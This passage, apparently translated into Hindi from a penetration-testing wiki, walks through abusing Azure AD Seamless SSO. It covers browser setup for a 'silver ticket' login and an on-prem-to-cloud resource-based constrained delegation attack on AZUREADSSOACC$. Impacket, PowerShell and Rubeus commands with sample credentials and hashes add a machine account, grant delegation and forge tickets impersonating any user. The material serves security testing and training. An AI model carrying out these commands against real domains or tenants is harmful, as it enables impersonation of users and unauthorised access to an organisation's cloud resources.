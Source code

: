 सिल्वर टिकट का उपयोग करने के लिए, निम्नलिखित चरणों का पालन किया जाना चाहिए:

1. **ब्राउज़र प्रारंभ करें:** Mozilla Firefox को लॉन्च किया जाना चाहिए।
2. **ब्राउज़र कॉन्फ़िगर करें:**
- **`about:config`** पर जाएं।
- [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) के लिए वरीयता को निर्दिष्ट [मान](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) पर सेट करें:
- `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
- Firefox `Settings` पर जाएं > `Allow Windows single sign-on for Microsoft, work and school accounts` के लिए खोजें और इसे सक्षम करें।
3. **वेब एप्लिकेशन तक पहुँचें:**
- एक वेब एप्लिकेशन पर जाएं जो संगठन के AAD डोमेन के साथ एकीकृत है। एक सामान्य उदाहरण है [login.microsoftonline.com](https://login.microsoftonline.com/)।
4. **प्रमाणीकरण प्रक्रिया:**
- लॉगिन स्क्रीन पर, उपयोगकर्ता नाम दर्ज करें, पासवर्ड फ़ील्ड को खाली छोड़ दें।
- आगे बढ़ने के लिए, TAB या ENTER दबाएं।

> [!WARNING]
> यह **MFA को बायपास नहीं करता यदि उपयोगकर्ता में सक्षम है**।

### On-prem -> Cloud via Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

हमला करने के लिए आवश्यक है:

- `WriteDACL` / `GenericWrite` पर `AZUREADSSOACC$`
- एक कंप्यूटर खाता जिसे आप नियंत्रित करते हैं (हैश और पासवर्ड) - आप एक बना सकते हैं

1. चरण 1 – अपना खुद का कंप्यूटर खाता जोड़ें
- `ATTACKBOX$` बनाता है और इसका SID/NTLM हैश प्रिंट करता है। कोई भी डोमेन उपयोगकर्ता यह कर सकता है जब MachineAccountQuota > 0 हो।
```bash
# Impacket
python3 addcomputer.py CONTOSO/bob:'P@ssw0rd!' -dc-ip 10.0.0.10 \
-computer ATTACKBOX$ -password S3cureP@ss
```
2. चरण 2 – `AZUREADSSOACC$` पर RBCD प्रदान करें - आपकी मशीन का SID `msDS-AllowedToActOnBehalfOfOtherIdentity` में लिखता है।
```bash
python3 rbcd.py CONTOSO/bob:'P@ssw0rd!'@10.0.0.10 \
ATTACKBOX$ AZUREADSSOACC$

# Or, from Windows:
$SID = (Get-ADComputer ATTACKBOX$).SID
Set-ADComputer AZUREADSSOACC$ `
-PrincipalsAllowedToDelegateToAccount $SID
```
3. चरण 3 – किसी भी उपयोगकर्ता (जैसे कि alice) के लिए TGS बनाएं
```bash
# Using your machine's password or NTLM hash
python3 getST.py -dc-ip 192.168.1.10 \
-spn HTTP/autologon.microsoftazuread-sso.com \
-impersonate alice \
DOMAIN/ATTACKBOX$ -hashes :9b3c0d06d0b9a6ef9ed0e72fb2b64821

# Produces alice.autologon.ccache

#Or, from Windows:
Rubeus s4u /user:ATTACKBOX$ /rc4:9b3c0d06d0b9a6ef9ed0e72fb2b64821 `
/impersonateuser:alice `
/msdsspn:"HTTP/autologon.microsoftazuread-sso.com" /dc:192.168.1.10 /ptt
```
आप अब **TGS का उपयोग करके Azure संसाधनों तक पहुंच सकते हैं जैसे कि आप impersonated उपयोगकर्ता हैं।**